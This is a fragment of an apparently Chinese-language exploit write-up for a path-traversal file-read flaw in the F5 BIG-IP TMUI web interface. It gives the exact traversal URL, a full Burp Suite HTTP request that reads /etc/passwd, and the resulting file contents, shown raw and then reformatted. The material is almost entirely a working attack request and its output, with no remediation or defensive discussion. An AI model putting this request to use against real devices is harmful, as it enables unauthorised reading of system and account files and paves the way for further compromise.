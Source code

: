                                           ............................

### 读取当前文件

Example:

    /tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd

2.png

#### BurpSuite Requests

    GET /tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd HTTP/1.1
    Host: www.0-sec.org
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:52.0) Gecko/20100101 Firefox/52.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Connection: close
    Upgrade-Insecure-Requests: 1

#### BurpSuite Response

    {
      "output": "root:x:0:0:root:/root:/bin/bash\nbin:x:1:1:bin:/bin:/sbin/nologin\ndaemon:x:2:2:daemon:/sbin:/sbin/nologin\nadm:x:3:4:adm:/var/adm:/sbin/nologin\nlp:x:4:7:lp:/var/spool/lpd:/sbin/nologin\nmail:x:8:12:mail:/var/spool/mail:/sbin/nologin\nuucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin\noperator:x:11:0:operator:/root:/sbin/nologin\nnobody:x:99:99:Nobody:/:/sbin/nologin\ntmshnobody:x:32765:32765:tmshnobody:/:/sbin/nologin\nadmin:x:0:500:Admin User:/home/admin:/sbin/nologin\nvcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin\ndbus:x:81:81:System message bus:/:/sbin/nologin\npostgres:x:26:26:PostgreSQL Server:/var/local/pgsql/data:/sbin/nologin\nf5_remoteuser:x:499:499:f5 remote user account:/home/f5_remoteuser:/sbin/nologin\noprofile:x:16:16:Special user account to be used by OProfile:/:/sbin/nologin\ntcpdump:x:72:72::/:/sbin/nologin\nrpc:x:32:32:Rpcbind Daemon:/var/cache/rpcbind:/sbin/nologin\nhsqldb:x:96:96::/var/lib/hsqldb:/sbin/nologin\napache:x:48:48:Apache:/usr/local/www:/sbin/nologin\ntomcat:x:91:91:Apache Tomcat:/usr/share/tomcat:/sbin/nologin\nmysql:x:98:98:MySQL server:/var/lib/mysql:/sbin/nologin\nnamed:x:25:25:Named:/var/named:/bin/false\nqemu:x:107:107:qemu user:/:/sbin/nologin\nsshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin\nsdm:x:498:495:sdmuser:/var/sdm:/bin/false\nntp:x:38:38::/etc/ntp:/sbin/nologin\nsyscheck:x:199:10::/:/sbin/nologin\nrestnoded:x:198:198::/:/sbin/nologin\ntwister5:x:0:500:twister5:/home/twister5:/bin/bash\n"
    }

#### format

    root:x:0:0:root:/root:/bin/bash
    bin:x:1:1:bin:/bin:/sbin/nologin
    daemon:x:2:2:daemon:/sbin:/sbin/nologin
    adm:x:3:4:adm:/var/adm:/sbin/nologin
    lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
    mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
    uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
    operator:x:11:0:operator:/root:/sbin/nologin
    nobody:x:99:99:Nobody:/:/sbin/nologin
    tmshnobody:x:32765:32765:tmshnobody:/:/sbin/nologin
    admin:x:0:500:Admin User:/home/admin:/sbin/nologin
    vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
    dbus:x:81:81:System message bus:/:/sbin/nologin
    postgres:x:26:26:PostgreSQL Server:/var/local/pgsql/data:/sbin/nologin
    f5_remoteuser:x:499:499:f5 remote user account:/home/f5_remoteuser:/sbin/nologin
    oprofile:x:16:16:Special user account to be used by OProfile:/:/sbin/nologin
    tcpdump:x:72:72::/:/sbin/nologin
    rpc:x:32:32:Rpcbind Daemon:/var/cache/rpcbind:/sbin/nologin
    hsqldb:x:96:96::/var/lib/hsqldb:/sbin/nologin
    apache:x:48:48:Apache:/usr/local/www:/sbin/nologin
    tomcat:x:91:91:Apache Tomcat:/usr/share/tomcat:/sbin/nologin
    mysql:x:98:98:MySQL server:/var/lib/mysql:/sbin/nologin